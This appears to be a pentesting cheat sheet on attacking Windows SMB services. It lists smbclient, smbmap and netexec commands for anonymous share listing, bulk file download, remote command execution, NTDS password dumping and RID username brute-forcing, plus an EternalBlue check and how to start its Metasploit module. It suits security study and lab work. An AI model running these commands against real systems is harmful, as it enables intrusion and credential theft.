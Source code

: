 
# SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob //10.129.42.253/users
# You can list resources without user with this command:
smbclient -N -L //10.129.117.14/
```

To **list the contents of a specific directory** inside a shared resource on the server:

1. Connect to the shared resource using `smbclient`.
2. Once inside, use the `ls` command to view the contents of the current directory.

```bash
smbclient //10.129.42.253/users -U bob
smb: \> ls
```

To download all content from a shared resource using `smbclient`, you can use the `mget *` command, which downloads all files in the current directory.

```bash
smb: \> mget *
```

To download all files and directories you need to execute these commands:

```bash
# Enable recursive download
smb: \> recurse ON
# Turn off interactive prompts for each file
smb: \> prompt OFF
# Download all files and folders
smb: \> mget *
```

# Eternal Blue
**Eternal Blue** is a critical vulnerability in the SMBv1 protocol  on Windows systems, specifically identified as **MS17-010** or **CVE-2017-0144**. This exploit allows attackers to execute remote code on unpatched systems, granting full access to compromised machines without needing authentication.
#### **Affected Systems**

- **Windows Server** versions:
    - **Windows Server 2003**
    - **Windows Server 2008 / 2008 R2**
    - **Windows Server 2012 / 2012 R2**
    - **Windows Server 2016** (unpatched)
    - **Windows Server 2019** (if SMBv1 is manually enabled and unpatched)
- **Windows OS Versions**:
    
    - **Windows XP**
    - **Windows Vista**
    - **Windows 7**
    - **Windows 8 / 8.1**
    - **Windows 10** (unpatched)
    
_Note_: Systems with SMBv1 disabled or patched against MS17-010 are generally protected from EternalBlue.

This nmap script allows you to know if the target machine is vulnerable to `Eternal Blue`.

```bash
nmap -p445 --script smb-vuln-ms17-010 <target_ip>
```

After executing the nmap command if the SMB service is vulnerable the associated CVE will be printed.

After validating the existance of the vulnerability, it can be exploited using `Metasploit`.

```bash
msfconsole
search eternalblue
use 0
```

# Smbmap
It is designed to enumerate and interact with shared files and another resources, providing information about their accessibility, permissions, and potential vulnerabilities.
- `-H`: Specifies the target IP address (replace "192.168.1.100" with the actual IP).
- `-u`: Specifies the username for authentication.
- `-p`: Specifies the password for authentication.
```bash
smbmap -H ip -u username -p password
```

## Netexec (Crackmapexec)
CME can enumerate users and their privileges on Windows systems using different type of protocols.
### Basic Usage
```bash
netexec smb <ip> -u 'username' -p 'password'
```

Once you have successfully authenticated to the SMB service on the target machine using **CrackMapExec** (CME), there are several actions you can take to further assess the security of the system or gather more information. Here’s a list of potential next steps:

- Enumerate Shares

```bash
netexec smb <ip> -u 'username' -p 'password' --shares
```

- Access shared files

```bash
netexec smb <ip> -u 'username' -p 'password' --get 'share_name/file_path'
```

- Access shared files

```bash
netexec smb <ip> -u 'username' -p 'password' --get 'share_name/file_path'
```

- Execute Commands Remotely

```bash
netexec smb <ip> -u 'username' -p 'password' --exec -c 'command'
```


- Check User and Group Information

```bash
netexec smb <ip> -u 'username' -p 'password'--users
```


- Password Dumping

```bash
netexec smb <ip> -u 'username' -p 'password'--ntds
```

### --rid-brute
This option enables the RID (Relative Identifier) brute-force enumeration feature. It tells CrackMapExec to try various RIDs to enumerate user accounts and retrieve their security identifiers (SIDs). This is useful for discovering valid usernames on the target system, especially if the `guest` account successfully authenticates.
```bash
crackmapexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute
```